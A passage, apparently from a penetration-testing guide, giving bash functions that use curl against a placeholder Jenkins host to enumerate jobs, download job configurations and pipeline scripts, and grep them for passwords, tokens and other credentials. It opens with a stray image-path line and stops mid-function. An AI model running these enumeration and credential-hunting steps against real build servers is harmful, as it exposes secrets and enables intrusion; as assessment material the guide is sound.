
## Build System Analysis

### Job Configuration Assessment

#### Build Process Enumeration
```bash
# Job configuration analysis
job_config_analysis() {
    local job_name=$1
    
    echo "[+] Analyzing job: $job_name"
    
    # Get job configuration XML
    curl -s -u "username:password" \
      "http://target.com:8080/job/$job_name/config.xml" > job_config.xml
    
    # Extract sensitive information
    echo "[+] Build triggers:"
    grep -oP '<triggers[^>]*>.*?</triggers>' job_config.xml
    
    echo "[+] Source control configuration:"
    grep -oP '<scm[^>]*>.*?</scm>' job_config.xml
    
    echo "[+] Build steps:"
    grep -oP '<builders>.*?</builders>' job_config.xml
    
    echo "[+] Post-build actions:"
    grep -oP '<publishers>.*?</publishers>' job_config.xml
    
    # Look for hardcoded credentials
    echo "[+] Potential credentials:"
    grep -iE "(password|secret|key|token|credential)" job_config.xml
}

# List all jobs and analyze each
jobs=$(curl -s -u "username:password" \
  "http://target.com:8080/api/json" | jq -r '.jobs[] | .name')

for job in $jobs; do
    job_config_analysis "$job"
done
```

#### Pipeline Security Analysis
```bash
# Pipeline script analysis (Jenkinsfile)
pipeline_analysis() {
    local job_name=$1
    
    # Get pipeline script
    curl -s -u "username:password" \
      "http://target.com:8080/job/$job_name/1/replay/" | \
      grep -oP 'name="_.script"[^>]*value="[^"]*"' | \
      sed 's/.*value="\([^"]*\)".*/\1/' | \
      base64 -d > pipeline_script.groovy
    
    # Analyze for security issues
    echo "[+] Pipeline security analysis for $job_name:"
    
    # Command execution detection
    grep -n "sh \|bat \|powershell \|cmd " pipeline_script.groovy && \
      echo "[!] Direct command execution found"
```